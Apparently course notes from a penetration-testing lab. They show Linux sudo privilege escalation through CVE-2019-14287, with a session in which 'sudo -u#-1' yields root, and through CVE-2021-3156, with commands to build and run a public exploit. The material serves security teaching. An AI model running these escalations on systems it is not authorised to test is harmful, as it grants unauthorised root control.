 ### Sudo Policy Bypass
Another vulnerability was found in 2019 that affected all versions below `1.8.28`, which allowed privileges to escalate even with a simple command. This vulnerability has the [CVE-2019-14287](https://www.sudo.ws/security/advisories/minus_1_uid/) and requires only a single prerequisite. It had to allow a user in the `/etc/sudoers` file to execute a specific command.

```shell
cry0l1t3@nix02:~$ sudo -l
[sudo] password for cry0l1t3: **********

User cry0l1t3 may run the following commands on Penny:
    ALL=(ALL) /usr/bin/id
```

Run bypass with command shown in `sudo -l`
```shell-session
cry0l1t3@nix02:~$ sudo -u#-1 id

root@nix02:/home/cry0l1t3# id

uid=0(root) gid=1005(cry0l1t3) groups=1005(cry0l1t3)
```

One of the latest vulnerabilities for `sudo` carries the CVE-2021-3156 and is based on a heap-based buffer overflow vulnerability. This affected the sudo versions:

- 1.8.31 - Ubuntu 20.04
- 1.8.27 - Debian 10
- 1.9.2 - Fedora 33
- and others

[Exploit](https://github.com/blasty/CVE-2021-3156)
```bash
cd CVE-2021-3156
make
```

```bash
./sudo-hax-me-a-sandwich

cat /etc/lsb-release

./sudo-hax-me-a-sandwich 1
```